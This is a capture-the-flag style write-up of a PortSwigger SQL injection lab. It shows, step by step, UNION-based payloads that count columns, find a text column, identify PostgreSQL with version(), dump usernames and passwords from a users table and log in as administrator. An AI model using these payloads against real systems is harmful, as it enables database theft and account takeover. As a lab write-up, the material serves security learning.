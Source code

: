 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/bb62cddb-eff4-4e33-82b7-2a457ab0d128)

## Solution :
Query made - 

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

#### Finding out the number of columns -

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ' UNION SELECT NULL,NULL--
```

**2 NULL** returns no error , which means there are 2 columns in the database.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/b8bc92f3-9631-468d-ada3-544e50f640b4)

####  Finding out which columns contain text data -

**1st column**

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT 'd',NULL --
```

Internal Server Error

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/49e9d2cc-5f43-4353-8d6f-9fe917ead767)


**2nd Column**

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT NULL,'d' --
```
This column contains text data .

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d41987fb-4556-4e51-b0d4-4169caa0de96)

### we need find out which version it is  using then only we will be able to concatination string.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/14787ad8-8495-41af-89b1-f177cc665402)

#### For determine the type of database.

The type of database in the second column can be identified by using the version command of each respective database system.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/b9586d00-7085-4324-9de1-80be4f197a86)

**Here it is PostgreSQL**

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT NULL,version() --
```
![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/09240204-6870-4a57-873f-344a3e03a716)

it is using POSTgreSQL 

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/3917cbc6-e246-441a-8e09-c30a21a8bba7)

#### Retreive multiple values in single column -

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT NULL,username||'-'||password FROM users --
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/84b1aa94-4221-4f9b-8b85-6070682d97b4)


got all the users and password.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/c9ad0fa4-f555-43a4-ba11-ff73b8193213)

Successfully logged in as administrator

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/13c81631-4528-4bde-bbbd-45e22111f65f)












